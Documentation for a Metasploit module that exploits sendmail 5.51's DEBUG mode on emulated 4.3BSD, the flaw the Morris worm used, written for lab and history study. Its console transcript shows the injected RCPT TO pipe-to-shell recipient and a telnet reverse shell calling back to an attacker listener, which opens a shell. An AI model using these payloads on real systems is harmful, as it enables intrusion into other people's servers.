 ## Vulnerable Application

### Description

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently, only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Scenarios

### `sendmail` 5.51 on 4.3BSD

```
msf5 > use exploit/unix/smtp/morris_sendmail_debug
msf5 exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Expecting: /220.*Sendmail/
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Expecting: /200 Debug set/
[*] 127.0.0.1:25 - Sending: MAIL FROM:<3V900gQTSR70m6QPRYJnf3eoUIe6>
[*] 127.0.0.1:25 - Expecting: /250.*Sender ok/
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Expecting: /250.*Recipient ok/
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Expecting: /354 Enter mail.*itself/
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 3935|telnet 192.168.56.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.56.1 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Expecting: /250 Ok/
[*] 127.0.0.1:25 - Sending: QUIT
[*] 127.0.0.1:25 - Expecting: /221.*closing connection/
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ISj759F8jEik4HAW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58037) at 2020-02-06 15:51:28 -0600
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
